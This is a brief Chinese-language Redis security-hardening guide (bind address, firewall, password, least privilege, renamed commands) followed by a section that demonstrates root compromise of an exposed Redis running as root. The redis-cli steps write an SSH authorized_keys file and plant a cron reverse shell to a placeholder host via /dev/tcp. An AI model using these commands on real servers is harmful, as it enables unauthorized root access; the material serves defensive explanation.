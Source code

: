 ### Redis服务安全加固

1）指定网卡（127.0.0.1）

`bind 127.0.0.1`

2）设置防火墙策略

`iptables -A INPUT -s x.x.x.x -p tcp --dport 6379 -j ACCEPT`

3）设置访问密码

`requirepass xxxxx`

4）服务运行权限最小化

`useradd -M -s /sbin/nologin [username]`
`sudo -u [username] /usr/bin/redis-server ./redis.conf`

5）隐藏重要命令

```shell
# config/flushdb/flushall 设置为空，即禁用该命令；或改为其它命令
    rename-command CONFIG ""
    rename-command flushall ""
    rename-command flushdb ""
    rename-command shutdown shotdown_test
```

6）安全补丁

定期关注最新软件版本，并及时升级 Redis 到最新版，防止新漏洞被恶意利用。

### 漏洞：获取root账号权限

前提：Redis以root身份运行，可连上redis

```shell
# redis-cli -h x.x.x.x
## 方式1.直接写入authorized_keys
config set dir /root/.ssh
config set dbfilename authorized_keys
set xxx "\n\n\nPublicKey\n\n\n"
save

## 方式2.反弹shell
set xxx "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/x.x.x.x/Port 0>&1\n\n"
config set dir /var/spool/cron
config set dbfilename root
save

```

